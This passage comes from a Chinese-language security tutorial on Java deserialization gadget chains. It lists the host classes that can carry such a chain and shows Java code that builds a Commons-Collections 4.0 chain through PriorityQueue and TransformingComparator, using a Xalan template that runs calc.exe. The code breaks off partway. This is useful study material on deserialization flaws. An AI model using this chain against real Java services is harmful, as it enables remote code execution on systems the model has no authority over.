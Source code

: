   ```java
            field.setAccessible(true);
        else if (clazz.getSuperclass() != null)
            field = getField(clazz.getSuperclass(), fieldName);
        return field;
    }

    public void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
  }
  ```

  关于该类的利用，我们在稍后的另一个目标宿主 PriorityQueue 中会提到,大家可以在稍后的代码中可以看到

* ### 目标宿主类

  | 名称                          | 使用条件                            |
  | ----------------------------- | ----------------------------------- |
  | AnnotationInvocationHandler   | 需要 jdk<=8u66                      |
  | BadAttributeValueExpException | System.getSecurityManager() == null |
  | PriorityQueue                 |                                     |
  | HashSet                       |                                     |

  在前文中，我们都已经详细介绍了 AnnotationInvocationHandler 和 BadAttributeValueExpException 两个宿主了,然而可以作为宿主的类依然还是不少，因而我们再多介绍两个

  **PriorityQueue**

  PriorityQueue 是一个有序队列,主要的功能是利用一个特定的排序方法，使得队列中的对象按照一定的顺序排布,同样的 PriorityQueue 的 readObject 方法中，在反序列化的时候需要调用自身的排序对象来对队列中的对象尽心排序，因此将 PriorityQueue 的排序器进行篡改，就是我们的突破点。

  以上述的 XalanTemplate 作为恶意代码,利用 PriorityQueue 做宿主，依靠 Commons-Collections 4.0 其中的几个类作为媒介，我们可以构造如下的攻击代码

  ```java
  public class XalanTest {

    public static void main(String[] args) throws Exception {
        XalanTest test = new XalanTest();
        test.run();
    }

    public void run() throws Exception {
        deserialize(serialize(getObject()));
    }

    //在此方法中返回恶意对象
    public Object getObject() throws Exception {
        //得到恶意代码
        Object template = createTemplate("calc.exe");

        //InvokerTransformer 中Method在此处需要先构建成ToString,因为在后续的queue.add会用到
        InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(transformer));
        //随便放两个元素进去
        queue.add(1);
        queue.add(1);

        //把InvokerTransformer的方法修改为 我们真正想调用的 newTransformer
        setFieldValue(transformer, "iMethodName", "newTransformer");
  ```